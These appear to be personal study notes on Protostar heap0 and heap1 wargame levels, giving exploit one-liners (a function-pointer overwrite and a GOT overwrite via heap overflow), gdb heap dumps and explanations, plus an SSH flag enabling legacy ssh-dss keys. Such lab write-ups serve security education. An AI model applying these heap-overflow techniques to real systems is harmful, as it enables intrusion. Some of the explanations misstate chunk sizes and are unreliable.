


# LiveOverflow Binary Exploitation / Memory Corruption

### Heap0

Playing around with heap0

```
$ /opt/protostar/bin/heap0 AAAAAAA
data is at 0x804a008, fp is at 0x804a050
level has not been passed
$ python
Python 2.6.6 (r266:84292, Dec 27 2010, 00:02:40) 
[GCC 4.4.5] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> 0x804a050 - 0x804a008
72
>>>
$ gdb /opt/protostar/bin/heap0
GNU gdb (GDB) 7.0.1-debian
Copyright (C) 2009 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "i486-linux-gnu".
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>...
Reading symbols from /opt/protostar/bin/heap0...done.
(gdb) x winner
0x8048464 <winner>:	0x83e58955
```

Answer

`/opt/protostar/bin/heap0 $(python -c "print('A'*72+'\x64\x84\x04\x08')")`

### 0x14 Heap, malloc(), and a little bit of analysis on Heap1

Process gets memory via `mmap()`

Already allocated memory can be changed via `brk()`

Run `strace ./BINARY` to see `mmap()` and `brk()` being used by binary which shows that memory have been allocated and changed to the binary

`malloc()` is a lib c function which not only calls mmap and/or brk to allocate memory but also to organise memory. The memory region that is controlled and used by `malloc()` is known as heap

### Heap1

- Breakdown

    

- How to solve

    Basically just use the first strcpy() to overflow to and change the address that i2&#8594;name points to, to the address of the printf function in the GOT table such that during the second strcpy, we would copy the address of the winner() function to the address of printf.

- Answer

    `/opt/protostar/bin/heap1 $(python -c "print('A'*20+'\x74\x97\x04\x08')") $(python -c "print('\x94\x84\x04\x08')")`

- How the heap looks like BEFORE executing any of the strcpy() functions (actually before   `i2->name = malloc(8);` and after `i2->priority = 2;`)

    

- More analysis/information

    1. use `info proc mappings` to find starting and ending addresses of heap controlled by malloc()

        - `info proc mappings` must be used while program is running if not you will encounter "No current process: you must name one."

    2. Debug logs

        ```
        (gdb) disassemble main
        Dump of assembler code for function main:
        0x080484b9 <main+0>:	push   ebp
        0x080484ba <main+1>:	mov    ebp,esp
        0x080484bc <main+3>:	and    esp,0xfffffff0
        0x080484bf <main+6>:	sub    esp,0x20
        0x080484c2 <main+9>:	mov    DWORD PTR [esp],0x8
        0x080484c9 <main+16>:	call   0x80483bc <malloc@plt>       // 1st BREAKPOINT
        0x080484ce <main+21>:	mov    DWORD PTR [esp+0x14],eax
        0x080484d2 <main+25>:	mov    eax,DWORD PTR [esp+0x14]
        0x080484d6 <main+29>:	mov    DWORD PTR [eax],0x1          // 2nd BREAKPOINT
        0x080484dc <main+35>:	mov    DWORD PTR [esp],0x8
        0x080484e3 <main+42>:	call   0x80483bc <malloc@plt>       // 3rd BREAKPOINT
        0x080484e8 <main+47>:	mov    edx,eax
        0x080484ea <main+49>:	mov    eax,DWORD PTR [esp+0x14]
        0x080484ee <main+53>:	mov    DWORD PTR [eax+0x4],edx
        0x080484f1 <main+56>:	mov    DWORD PTR [esp],0x8
        0x080484f8 <main+63>:	call   0x80483bc <malloc@plt>       // 4th BREAKPOINT
        0x080484fd <main+68>:	mov    DWORD PTR [esp+0x18],eax
        0x08048501 <main+72>:	mov    eax,DWORD PTR [esp+0x18]
        0x08048505 <main+76>:	mov    DWORD PTR [eax],0x2          // 5th BREAKPOINT
        0x0804850b <main+82>:	mov    DWORD PTR [esp],0x8
        0x08048512 <main+89>:	call   0x80483bc <malloc@plt>       // 6th BREAKPOINT
        0x08048517 <main+94>:	mov    edx,eax
        0x08048519 <main+96>:	mov    eax,DWORD PTR [esp+0x18]
        0x0804851d <main+100>:	mov    DWORD PTR [eax+0x4],edx
        0x08048520 <main+103>:	mov    eax,DWORD PTR [ebp+0xc]
        0x08048523 <main+106>:	add    eax,0x4
        0x08048526 <main+109>:	mov    eax,DWORD PTR [eax]
        0x08048528 <main+111>:	mov    edx,eax
        0x0804852a <main+113>:	mov    eax,DWORD PTR [esp+0x14]
        0x0804852e <main+117>:	mov    eax,DWORD PTR [eax+0x4]
        0x08048531 <main+120>:	mov    DWORD PTR [esp+0x4],edx
        ---Type <return> to continue, or q <return> to quit---
        0x08048535 <main+124>:	mov    DWORD PTR [esp],eax
        0x08048538 <main+127>:	call   0x804838c <strcpy@plt>      // 7th BREAKPOINT
        0x0804853d <main+132>:	mov    eax,DWORD PTR [ebp+0xc]
        0x08048540 <main+135>:	add    eax,0x8
        0x08048543 <main+138>:	mov    eax,DWORD PTR [eax]
        0x08048545 <main+140>:	mov    edx,eax
        0x08048547 <main+142>:	mov    eax,DWORD PTR [esp+0x18]
        0x0804854b <main+146>:	mov    eax,DWORD PTR [eax+0x4]
        0x0804854e <main+149>:	mov    DWORD PTR [esp+0x4],edx
        0x08048552 <main+153>:	mov    DWORD PTR [esp],eax
        0x08048555 <main+156>:	call   0x804838c <strcpy@plt>      // 8th BREAKPOINT
        0x0804855a <main+161>:	mov    DWORD PTR [esp],0x804864b
        0x08048561 <main+168>:	call   0x80483cc <puts@plt>
        0x08048566 <main+173>:	leave  
        0x08048567 <main+174>:	ret    
        End of assembler dump.
        (gdb) break *0x080484c9
        Breakpoint 1 at 0x80484c9: file heap1/heap1.c, line 23.
        (gdb) break *0x080484d6
        Breakpoint 2 at 0x80484d6: file heap1/heap1.c, line 24.
        (gdb) break *0x080484e3
        Breakpoint 3 at 0x80484e3: file heap1/heap1.c, line 25.
        (gdb) break *0x080484f8
        Breakpoint 4 at 0x80484f8: file heap1/heap1.c, line 27.
        (gdb) break *0x08048505
        Breakpoint 5 at 0x8048505: file heap1/heap1.c, line 28.
        (gdb) break *0x08048512
        Breakpoint 6 at 0x8048512: file heap1/heap1.c, line 29.
        (gdb) break *0x08048538
        Breakpoint 7 at 0x8048538: file heap1/heap1.c, line 31.
        (gdb) break *0x08048555
        Breakpoint 8 at 0x8048555: file heap1/heap1.c, line 32.
        (gdb) r $(python -c "print('A'*50)") $(python -c "print('A'*50)")
        Starting program: /opt/protostar/bin/heap1 $(python -c "print('A'*50)") $(python -c "print('A'*50)")

        Breakpoint 10, 0x080484c9 in main (argc=3, argv=0xbffffd14) at heap1/heap1.c:23
        23	in heap1/heap1.c
        (gdb) x/64wx 0x804a000
        0x804a000:	Cannot access memory at address 0x804a000
        (gdb) info proc mappings
        process 1501
        cmdline = '/opt/protostar/bin/heap1'
        cwd = '/home/user'
        exe = '/opt/protostar/bin/heap1'
        Mapped address spaces:
        
        	Start Addr   End Addr       Size     Offset objfile
        	 0x8048000  0x8049000     0x1000          0        /opt/protostar/bin/heap1
        	 0x8049000  0x804a000     0x1000          0        /opt/protostar/bin/heap1
        	0xb7e96000 0xb7e97000     0x1000          0        
        	0xb7e97000 0xb7fd5000   0x13e000          0         /lib/libc-2.11.2.so
        	0xb7fd5000 0xb7fd6000     0x1000   0x13e000         /lib/libc-2.11.2.so
        	0xb7fd6000 0xb7fd8000     0x2000   0x13e000         /lib/libc-2.11.2.so
        	0xb7fd8000 0xb7fd9000     0x1000   0x140000         /lib/libc-2.11.2.so
        	0xb7fd9000 0xb7fdc000     0x3000          0        
        	0xb7fe0000 0xb7fe2000     0x2000          0        
        	0xb7fe2000 0xb7fe3000     0x1000          0           [vdso]
        	0xb7fe3000 0xb7ffe000    0x1b000          0         /lib/ld-2.11.2.so
        	0xb7ffe000 0xb7fff000     0x1000    0x1a000         /lib/ld-2.11.2.so
        	0xb7fff000 0xb8000000     0x1000    0x1b000         /lib/ld-2.11.2.so
        	0xbffeb000 0xc0000000    0x15000          0           [stack]
        (gdb) x/64wx 0x804a000
        0x804a000:	Cannot access memory at address 0x804a000
        (gdb) c
        Continuing.
        
        Breakpoint 2, 0x080484d6 in main (argc=3, argv=0xbffffd14) at heap1/heap1.c:24
        24	in heap1/heap1.c
        (gdb) x/64wx 0x804a000
        0x804a000:	0x00000000	0x00000011	0x00000000	0x00000000
        0x804a010:	0x00000000	0x00020ff1	0x00000000	0x00000000
        0x804a020:	0x00000000	0x00000000	0x00000000	0x00000000
        0x804a030:	0x00000000	0x00000000	0x00000000	0x00000000
        0x804a040:	0x00000000	0x00000000	0x00000000	0x00000000
        0x804a050:	0x00000000	0x00000000	0x00000000	0x00000000
        0x804a060:	0x00000000	0x00000000	0x00000000	0x00000000
        0x804a070:	0x00000000	0x00000000	0x00000000	0x00000000
        0x804a080:	0x00000000	0x00000000	0x00000000	0x00000000
        0x804a090:	0x00000000	0x00000000	0x00000000	0x00000000
        0x804a0a0:	0x00000000	0x00000000	0x00000000	0x00000000
        0x804a0b0:	0x00000000	0x00000000	0x00000000	0x00000000
        0x804a0c0:	0x00000000	0x00000000	0x00000000	0x00000000
        0x804a0d0:	0x00000000	0x00000000	0x00000000	0x00000000
        0x804a0e0:	0x00000000	0x00000000	0x00000000	0x00000000
        0x804a0f0:	0x00000000	0x00000000	0x00000000	0x00000000
        (gdb) c
        Continuing.
        
        Breakpoint 3, 0x080484e3 in main (argc=3, argv=0xbffffd14) at heap1/heap1.c:25
        25	in heap1/heap1.c
        (gdb) x/64wx 0x804a000
        0x804a000:	0x00000000	0x00000011	0x00000001	0x00000000
        0x804a010:	0x00000000	0x00020ff1	0x00000000	0x00000000
        0x804a020:	0x00000000	0x00000000	0x00000000	0x00000000
        0x804a030:	0x00000000	0x00000000	0x00000000	0x00000000
        0x804a040:	0x00000000	0x00000000	0x00000000	0x00000000
        0x804a050:	0x00000000	0x00000000	0x00000000	0x00000000
        0x804a060:	0x00000000	0x00000000	0x00000000	0x00000000
        0x804a070:	0x00000000	0x00000000	0x00000000	0x00000000
        0x804a080:	0x00000000	0x00000000	0x00000000	0x00000000
        0x804a090:	0x00000000	0x00000000	0x00000000	0x00000000
        0x804a0a0:	0x00000000	0x00000000	0x00000000	0x00000000
        0x804a0b0:	0x00000000	0x00000000	0x00000000	0x00000000
        0x804a0c0:	0x00000000	0x00000000	0x00000000	0x00000000
        0x804a0d0:	0x00000000	0x00000000	0x00000000	0x00000000
        0x804a0e0:	0x00000000	0x00000000	0x00000000	0x00000000
        0x804a0f0:	0x00000000	0x00000000	0x00000000	0x00000000
        (gdb) c
        Continuing.
        
        Breakpoint 4, 0x080484f8 in main (argc=3, argv=0xbffffd14) at heap1/heap1.c:27
        27	in heap1/heap1.c
        (gdb) x/64wx 0x804a000
        0x804a000:	0x00000000	0x00000011	0x00000001	0x0804a018
        0x804a010:	0x00000000	0x00000011	0x00000000	0x00000000
        0x804a020:	0x00000000	0x00020fe1	0x00000000	0x00000000
        0x804a030:	0x00000000	0x00000000	0x00000000	0x00000000
        0x804a040:	0x00000000	0x00000000	0x00000000	0x00000000
        0x804a050:	0x00000000	0x00000000	0x00000000	0x00000000
        0x804a060:	0x00000000	0x00000000	0x00000000	0x00000000
        0x804a070:	0x00000000	0x00000000	0x00000000	0x00000000
        0x804a080:	0x00000000	0x00000000	0x00000000	0x00000000
        0x804a090:	0x00000000	0x00000000	0x00000000	0x00000000
        0x804a0a0:	0x00000000	0x00000000	0x00000000	0x00000000
        0x804a0b0:	0x00000000	0x00000000	0x00000000	0x00000000
        0x804a0c0:	0x00000000	0x00000000	0x00000000	0x00000000
        0x804a0d0:	0x00000000	0x00000000	0x00000000	0x00000000
        0x804a0e0:	0x00000000	0x00000000	0x00000000	0x00000000
        0x804a0f0:	0x00000000	0x00000000	0x00000000	0x00000000
        (gdb) c
        Continuing.
        
        Breakpoint 5, 0x08048505 in main (argc=3, argv=0xbffffd14) at heap1/heap1.c:28
        28	in heap1/heap1.c
        (gdb) x/64wx 0x804a000
        0x804a000:	0x00000000	0x00000011	0x00000001	0x0804a018
        0x804a010:	0x00000000	0x00000011	0x00000000	0x00000000
        0x804a020:	0x00000000	0x00000011	0x00000000	0x00000000
        0x804a030:	0x00000000	0x00020fd1	0x00000000	0x00000000
        0x804a040:	0x00000000	0x00000000	0x00000000	0x00000000
        0x804a050:	0x00000000	0x00000000	0x00000000	0x00000000
        0x804a060:	0x00000000	0x00000000	0x00000000	0x00000000
        0x804a070:	0x00000000	0x00000000	0x00000000	0x00000000
        0x804a080:	0x00000000	0x00000000	0x00000000	0x00000000
        0x804a090:	0x00000000	0x00000000	0x00000000	0x00000000
        0x804a0a0:	0x00000000	0x00000000	0x00000000	0x00000000
        0x804a0b0:	0x00000000	0x00000000	0x00000000	0x00000000
        0x804a0c0:	0x00000000	0x00000000	0x00000000	0x00000000
        0x804a0d0:	0x00000000	0x00000000	0x00000000	0x00000000
        0x804a0e0:	0x00000000	0x00000000	0x00000000	0x00000000
        0x804a0f0:	0x00000000	0x00000000	0x00000000	0x00000000
        (gdb) c
        Continuing.
        
        Breakpoint 6, 0x08048512 in main (argc=3, argv=0xbffffd14) at heap1/heap1.c:29
        29	in heap1/heap1.c
        (gdb) x/64wx 0x804a000
        0x804a000:	0x00000000	0x00000011	0x00000001	0x0804a018
        0x804a010:	0x00000000	0x00000011	0x00000000	0x00000000
        0x804a020:	0x00000000	0x00000011	0x00000002	0x00000000
        0x804a030:	0x00000000	0x00020fd1	0x00000000	0x00000000
        0x804a040:	0x00000000	0x00000000	0x00000000	0x00000000
        0x804a050:	0x00000000	0x00000000	0x00000000	0x00000000
        0x804a060:	0x00000000	0x00000000	0x00000000	0x00000000
        0x804a070:	0x00000000	0x00000000	0x00000000	0x00000000
        0x804a080:	0x00000000	0x00000000	0x00000000	0x00000000
        0x804a090:	0x00000000	0x00000000	0x00000000	0x00000000
        0x804a0a0:	0x00000000	0x00000000	0x00000000	0x00000000
        0x804a0b0:	0x00000000	0x00000000	0x00000000	0x00000000
        0x804a0c0:	0x00000000	0x00000000	0x00000000	0x00000000
        0x804a0d0:	0x00000000	0x00000000	0x00000000	0x00000000
        0x804a0e0:	0x00000000	0x00000000	0x00000000	0x00000000
        0x804a0f0:	0x00000000	0x00000000	0x00000000	0x00000000
        (gdb) c
        Continuing.
        
        Breakpoint 7, 0x08048538 in main (argc=3, argv=0xbffffd14) at heap1/heap1.c:31
        31	in heap1/heap1.c
        (gdb) x/64wx 0x804a000
        0x804a000:	0x00000000	0x00000011	0x00000001	0x0804a018
        0x804a010:	0x00000000	0x00000011	0x00000000	0x00000000
        0x804a020:	0x00000000	0x00000011	0x00000002	0x0804a038
        0x804a030:	0x00000000	0x00000011	0x00000000	0x00000000
        0x804a040:	0x00000000	0x00020fc1	0x00000000	0x00000000
        0x804a050:	0x00000000	0x00000000	0x00000000	0x00000000
        0x804a060:	0x00000000	0x00000000	0x00000000	0x00000000
        0x804a070:	0x00000000	0x00000000	0x00000000	0x00000000
        0x804a080:	0x00000000	0x00000000	0x00000000	0x00000000
        0x804a090:	0x00000000	0x00000000	0x00000000	0x00000000
        0x804a0a0:	0x00000000	0x00000000	0x00000000	0x00000000
        0x804a0b0:	0x00000000	0x00000000	0x00000000	0x00000000
        0x804a0c0:	0x00000000	0x00000000	0x00000000	0x00000000
        0x804a0d0:	0x00000000	0x00000000	0x00000000	0x00000000
        0x804a0e0:	0x00000000	0x00000000	0x00000000	0x00000000
        0x804a0f0:	0x00000000	0x00000000	0x00000000	0x00000000
        (gdb) set $i1 = (struct internet*)0x804a008
        (gdb) set $i2 = (struct internet*)0x804a028
        (gdb) print $i1
        $1 = (struct internet *) 0x804a008
        (gdb) print *$i1
        $2 = {priority = 1, name = 0x804a018 ""}
        (gdb) print *$i2
        $3 = {priority = 2, name = 0x804a038 ""}
        (gdb) c
        Continuing.
        
        Breakpoint 8, 0x08048555 in main (argc=3, argv=0xbffffd14) at heap1/heap1.c:32
        32	in heap1/heap1.c
        (gdb) print *$i1
        $4 = {priority = 1, name = 0x804a018 'A' <repeats 50 times>}
        (gdb) print *$i2
        $5 = {priority = 1094795585, name = 0x41414141 <Address 0x41414141 out of bounds>}
        (gdb) c
        Continuing.
        
        Breakpoint 8, 0x08048555 in main (argc=3, argv=0xbffffd14) at heap1/heap1.c:32
        32	in heap1/heap1.c
        (gdb) x/64wx 0x804a000
        0x804a000:	0x00000000	0x00000011	0x00000001	0x0804a018
        0x804a010:	0x00000000	0x00000011	0x41414141	0x41414141
        0x804a020:	0x41414141	0x41414141	0x41414141	0x41414141
        0x804a030:	0x41414141	0x41414141	0x41414141	0x41414141
        0x804a040:	0x41414141	0x41414141	0x00004141	0x00000000
        0x804a050:	0x00000000	0x00000000	0x00000000	0x00000000
        0x804a060:	0x00000000	0x00000000	0x00000000	0x00000000
        0x804a070:	0x00000000	0x00000000	0x00000000	0x00000000
        0x804a080:	0x00000000	0x00000000	0x00000000	0x00000000
        0x804a090:	0x00000000	0x00000000	0x00000000	0x00000000
        0x804a0a0:	0x00000000	0x00000000	0x00000000	0x00000000
        0x804a0b0:	0x00000000	0x00000000	0x00000000	0x00000000
        0x804a0c0:	0x00000000	0x00000000	0x00000000	0x00000000
        0x804a0d0:	0x00000000	0x00000000	0x00000000	0x00000000
        0x804a0e0:	0x00000000	0x00000000	0x00000000	0x00000000
        0x804a0f0:	0x00000000	0x00000000	0x00000000	0x00000000
        (gdb) c
        Continuing.
        
        Program received signal SIGSEGV, Segmentation fault.
        *__GI_strcpy (dest=0x41414141 <Address 0x41414141 out of bounds>, src=0xbffffe7a 'A' <repeats 50 times>) at strcpy.c:40
        40	strcpy.c: No such file or directory.
        	in strcpy.c
        (gdb) x/64wx 0x804a000
        0x804a000:	0x00000000	0x00000011	0x00000001	0x0804a018
        0x804a010:	0x00000000	0x00000011	0x41414141	0x41414141
        0x804a020:	0x41414141	0x41414141	0x41414141	0x41414141
        0x804a030:	0x41414141	0x41414141	0x41414141	0x41414141
        0x804a040:	0x41414141	0x41414141	0x00004141	0x00000000
        0x804a050:	0x00000000	0x00000000	0x00000000	0x00000000
        0x804a060:	0x00000000	0x00000000	0x00000000	0x00000000
        0x804a070:	0x00000000	0x00000000	0x00000000	0x00000000
        0x804a080:	0x00000000	0x00000000	0x00000000	0x00000000
        0x804a090:	0x00000000	0x00000000	0x00000000	0x00000000
        0x804a0a0:	0x00000000	0x00000000	0x00000000	0x00000000
        0x804a0b0:	0x00000000	0x00000000	0x00000000	0x00000000
        0x804a0c0:	0x00000000	0x00000000	0x00000000	0x00000000
        0x804a0d0:	0x00000000	0x00000000	0x00000000	0x00000000
        0x804a0e0:	0x00000000	0x00000000	0x00000000	0x00000000
        0x804a0f0:	0x00000000	0x00000000	0x00000000	0x00000000
        ```

    3. Analysis of logs

        - At first breakpoint, we observe that we are unable to access the heap, which is expected as we have not called malloc()

        - At the second breakpoint, we observe the following which is expected as we have used 0x1 (16) amount of bytes after allocating memory for internet struct i1 (int takes up 4bytes and char pointer takes up 4 bytes along with a consistent 8 bytes empty buffer - 4 of the 8 bytes are used to store the entire size of the chunk and the other 4 is an empty gap as observed and explained in this [forum](https://cboard.cprogramming.com/c-programming/63292-malloc-address-allocation.html). The first bit of 0x1 is set to 1 to indicate that the previous memory location has been allocated, resulting in 0x00000011. 0x00020ff1 represents the volume of memory left in the heap. 

            ```
            0x804a000:	0x00000000	0x00000011	0x00000000	0x00000000
            0x804a010:	0x00000000	0x00020ff1	0x00000000	0x00000000
            ```

        - At the third breakpoint, we have already set priority of i1 to 0x1

        - At the fourth breakpoint, we have already set name of i1 to the STARTING MEMORY ADDRESS of the memory allocated to store its value as allocated and returned by malloc(8). In this case it is 0x0804a018, derived from 0x0804a008 (starting address of USABLE memory in heap after 8 byte empty buffer) + 0x1 (the amount of space used in `malloc(sizeof(struct internet))`)

        - At the fifth breakpoint, we are basically repeating the state at the second breakpoint

        - At the sixth breakpoint, we are basically repeating the state at the third breakpoint

        - At the seventh breakpoint, we are basically repeating the state at the fourth breakpoint

        - At the eigth breakpoint, our first strcpy instruction has resulted in us overflowing the heap with "A"

        - Continuing the program, we get segmentation fault as we try to strcpy "A"s to the memory location pointed to by i2&#8594;name. But i2&#8594;name memory address has been overwritten by "A"s, hence giving us segmentation fault.

### SSH problem fix (no matching host key type found)

ssh -oHostKeyAlgorithms=+ssh-dss XXX@XXX.XXX.XXX.XX
